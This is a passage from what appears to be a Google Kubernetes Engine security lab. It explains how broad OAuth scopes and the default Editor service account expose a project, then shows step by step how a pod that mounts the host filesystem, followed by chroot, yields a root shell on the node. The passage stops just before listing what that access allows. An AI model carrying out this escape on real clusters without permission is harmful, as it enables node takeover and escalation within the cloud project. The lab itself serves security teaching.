 The combination of authentication scopes and the permissions of the service account dictates what applications on this node can access.  The above list is the minimum scopes needed for most GKE clusters, but some use cases require increased scopes.

If the authentication scope were to be configured during cluster creation to include `https://www.googleapis.com/auth/cloud-platform`, this would allow any GCP API to be considered "in scope", and only the IAM permissions assigned to the service account would determine what can be accessed.  If the default service account is in use and the default IAM Role of `Editor` was not modified, this effectively means that any pod on this node pool has `Editor` permissions to the GCP project where the GKE cluster is deployed.  As the `Editor` IAM Role has a wide range of read/write permissions to interact with resources in the project such as Compute instances, GCS buckets, GCR registries, and more, this is most likely not desired.

Exit out of this pod by typing:

```console
exit
```

### Deploy a pod that mounts the host filesystem

One of the simplest paths for "escaping" to the underlying host is by mounting the host's filesystem into the pod's filesystem using standard Kubernetes `volumes` and `volumeMounts` in a `Pod` specification.

To demonstrate this, run the following to create a Pod that mounts the underlying host filesystem `/` at the folder named `/rootfs` inside the container:

```console
kubectl apply -f manifests/hostpath.yml
```

Run `kubectl get pod` and re-run until it's in the "Running" state:

```console
kubectl get pod

NAME       READY   STATUS    RESTARTS   AGE
hostpath   1/1     Running   0          30s
```

### Explore and compromise the underlying host

Run the following to obtain a shell inside the pod you just created:

```console
kubectl exec -it hostpath -- bash
```

Switch to the pod shell's root filesystem point to that of the underlying host:

```console
chroot /rootfs /bin/bash

hostpath / #
```

With those simple commands, the pod is now effectively a `root` shell on the node. You are now able to do the following:

